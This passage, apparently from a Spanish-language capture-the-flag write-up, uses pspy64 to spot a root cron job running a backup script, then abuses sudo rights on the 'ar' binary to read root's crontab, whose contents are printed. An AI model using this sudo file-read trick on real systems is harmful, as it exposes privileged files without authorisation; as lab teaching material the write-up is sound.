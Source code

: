 ```bash
/bin/ls -t $CARPETA_BACKUP | /usr/bin/sed -e '1,2d' | /usr/bin/xargs -d '\n' /bin/rm -f
```

 

Vamos a ver si hay alguna tarea **cron** con `pspy64`:

```bash
2024/09/14 17:45:01 CMD: UID=0     PID=1903   | /usr/sbin/CRON -f 
2024/09/14 17:45:01 CMD: UID=0     PID=1904   | /usr/sbin/CRON -f 
2024/09/14 17:45:01 CMD: UID=0     PID=1905   | /bin/sh -c /opt/backup_bd.sh `date +%F` 
2024/09/14 17:45:01 CMD: UID=0     PID=1906   | 
2024/09/14 17:45:01 CMD: UID=0     PID=1907   | /bin/mkdir -p /root/backups 
2024/09/14 17:45:01 CMD: UID=0     PID=1908   | /bin/bash /opt/backup_bd.sh 2024-09-14 
2024/09/14 17:45:01 CMD: UID=0     PID=1911   | /bin/bash /opt/backup_bd.sh 2024-09-14 
2024/09/14 17:45:01 CMD: UID=0     PID=1910   | 
2024/09/14 17:45:01 CMD: UID=0     PID=1909   | /bin/ls -t /root/backups 
2024/09/14 17:45:01 CMD: UID=0     PID=1912   | /usr/bin/xargs -d \n /bin/rm -f 

```

Vemos que hay una tarea de **root**. Como podemos leer ficheros como **root** con el binario `ar`, vamos a ver que contiene el fichero **cron**:

```bash
TF=$(mktemp -u)
LFILE=/var/spool/cron/crontabs/root
sudo ar r "$TF" "$LFILE"
cat "$TF"

!<arch>
root/           0           0     0     644     1239      `
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.3cCTUG/crontab installed on Thu Aug 22 23:03:21 2024)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/home/securitybot/.local/bin:/usr/bin:/sbin:/bin"
MAILTO=""
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/1 * * * *     /opt/backup_bd.sh `date +\%F`

```
